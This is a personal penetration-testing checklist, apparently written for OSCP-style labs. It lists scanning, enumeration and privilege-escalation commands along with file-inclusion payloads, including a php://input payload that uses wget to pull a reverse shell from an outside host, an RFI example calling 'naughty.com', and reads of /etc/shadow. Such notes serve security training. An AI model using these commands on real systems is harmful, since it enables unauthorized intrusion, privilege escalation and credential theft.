 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
	  - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
	  - DEFAULT SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
	- ``` nmap -sU -T3 Ip-target -v ```
	- ```--source-port 100``` just to try evade, change to well-known port number

- Port 21
  - Banner grabbing
	  -```ftp root@ip-target```
	- Try anonymous login
	- Set to **BINARY** for exe
	- PUT / DELETE
	- Check for version numbers
	- use searchsploit / google for known vulns

- Port 22
  - Banner grabbing / check username
	  - ```ssh root@192.192.192.192```

- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    - ```smbclient \\\\ip\\share```
  - try to connect to them to see if they are truly alive
  - Banner grabbing even if booted
  - ```nbtscan [ip-range]```
    - (https://highon.coffee/blog/nbtscan-cheat-sheet/)

- Port 161 (snmp)
  - ```snmpwalk -c public -v 1 $IP 1.3.6.1.4.1.77.1.2.25```
  - ```snmp-check $IP```
  - ```onesixtyone $IP```

- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8``` (Many others check -H)
  - ``` dirb http://Ip-target -r``` **Different wordlist perhaps**
    - Non-recursive to save time, then inspect further if necessary
  - Try nmap ``` -–script=http-enum.nse``` (others available)
  - Check site in browser (http/https)
  - Resolve host name if necessary (etc/hosts)
  - Cookies
  - GET POST
  - Check source
	  - Directories
	  - Comments
	  - Script links
	  - Form methods
	  - Login forms
		  - Versions/names/brands etc
		  - Basic sql injection
        - ``` ‘or 1=1```
        - ```union```
   
<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
	  - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
   	- ```>``` output to a file
   	- ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
   	- ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
		- ctrl+z backgrounds the shell on local box
		-then type:
		  - ```ssty raw -echo```
			- ```fg```
			- ```reset```
			- if size is an issue type:
			  - ```stty size``` (returns current window size)
				- ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
	- If ```find``` has sudo ```sudo find /home -exec sh -i \;```
	- ```sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"``` (https://v3ded.github.io/ctf/zico2.html)
	- if these don’t work try get kernel and distro info to look for exploits
	  - ```uname -ar```
		- ```cat /etc/issue```
		- ```cat /etc/*-release```
		- ```cat /etc/lsb-release```
		- ```cat /etc/redhat-release```
  - SUID
	  - ```find / -perm -u=s -type f 2>/dev/null ```
  - Available programs/languages on host:
	  - which Perl,python etc
	- Nc,ncat,wget,curl
	  - ```curl -o theFile http://IP:PORT/theFile```
		- ```curl ftp://ftp.domain.com --user username:password```
		  - Access FTP server (Add file to end of domain to download)
		- ```wget http://IP:PORT/theFile -O theFile```
		- ```fetch -o theFile http://IP:PORT/theFile``` (FreeBSD)
  - Password Files
	  - /etc/pwd.db
		- /etc/spwd.db
		- /etc/shadow
		- /etc/passwd

<H2>Windows</H2>

  - Usefull commands
    - ```dir /a```
    - ```type```
    - ```ipconfig -all```
    - ```echo %HOSTNAME% && %USERNAME%```
    - ```systeminfo```
    - ```net users```
    - ```dir /s *pass* == *cred* == *vnc* == *.config*```
    - ```net start upnphost``` (or other service)
    - ```

 - Priv esc
 - Still busy gathering info... Have this so far:
   - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
   - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>

- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
  - Similar to local file inclusion while not hosted on the target
	- Rarer than LFI due to php.ini needs to configured for it
	- Requres unsanitised parameter:
	  - ```$theFile = $_REQUEST[“file”];```
		- ```include($theFile . “.php”);```
	- Now in browser:
	  - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
		- Badfile.txt:
		  - ```<?php echo shell_exec("whoami");?>```
- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
- Directory traversal
  - ```foo.php?file=../../../../../../../etc/passwd```
	- PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
	- http://127.0.0.1/fileincl/example1.php?page=expect://ls
	- PHP (POST request) ```php://input```
	- http://192.168.183.128/fileincl/example1.php?page= **php://input**
	  - input can be:
		- ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
		- In browser:
		  - http://192.192.192.192/shell.php
	- PHP ```php://filter```
	  - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
		- Must decode the output from base64
		- /proc/self/environ (If you able to write there)
- Manipulate ```User Agent``` in Burp
- phpinfo()
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
	- Uses phpinfo() to write temporary files together with fimap
- WAF
  - wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
	  - ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips
- https://payatu.com/guide-linux-privilege-escalation/ - Linux Privesc


